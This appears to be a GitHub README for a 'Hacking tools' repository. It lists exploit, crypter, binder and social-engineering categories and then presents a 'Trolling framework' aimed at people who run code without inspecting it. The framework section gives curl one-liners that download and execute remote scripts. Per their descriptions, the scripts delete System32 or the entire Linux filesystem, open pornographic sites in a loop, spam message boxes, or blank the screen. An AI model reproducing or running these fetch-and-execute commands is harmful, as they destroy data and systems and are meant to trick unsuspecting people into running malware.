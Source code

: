 # Hacking tools
#### Penetration testing and ethical hacking toolkit.

##### 🛡 Exploitation - various archived CVE exploits

##### 🔑 Cryptography - encryption and decryption tools, cipher recognizing tools

##### 🕶 Anonymizing - proxy scrapers, tor scripts and openvpn configs

##### ⚙ Social engineering - forked social engineering framework, some other handy tools 

##### 💻 Hardware hacking - tutorials how-to do stuff like bad usb

##### 🗃 File manipulation - file binders, crypters and much more .net and others

##### 🛠 Reverse engineering - forked popular reverse engineering frameworks and links to professional courses

<a href="https://ibb.co/q5QLKhT"><img src="https://i.ibb.co/X8Rf16c/ezgif-com-gif-maker-1.gif" alt="ezgif-com-gif-maker-1" border="0"></a>
Psst, scroll down.

## Trolling framework
Build to make fun off script kiddies that will execute any code you send them without inspection, use for fun but do not harm.
These scripts are really poorly coded, but friend gave me 24 hours so Im trying to make as much as possible, expect improvement in the future.
This little 'project' was made because I wanted to excercise in as many languages as possible.

### Windows platform
#### 1 (C#) - Blank screen that you can remember from Async rat, I've made own and it doesnt break your pc when you restart it
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/1/script.exe?raw=true -o script.exe & script.exe```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/4/script.exe?raw=true -o script.exe & script.exe```
#### 5 (Golang) - Classic infinite messagebox with 'You have been hacked!' message
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/5/script.exe?raw=true -o script.exe & script.exe```
#### 6 (Batch) - Deleting Sys32 😀
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/6/script.bat?raw=true -o script.bat & script.bat```
### Linux platform
#### 2 (Node.js) - Downloads p0rn in every available directory
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/2/script.js?raw=true -o script.js; node script.js```
#### 3 (Bash) - rickrolling while deleting whole filesystem, use when escaping feds, death to whoever launches this without looking at the code 😂
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/3/script.sh?raw=true -o script; chmod+x script; ./script```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL https://github.com/TheDebianGuy/Hackingtools/blob/master/4/script.bin?raw=true -o script.bin; chmod+x script.bin; ./script.bin```
#### 7 (Java) - Blank screen, coming soon


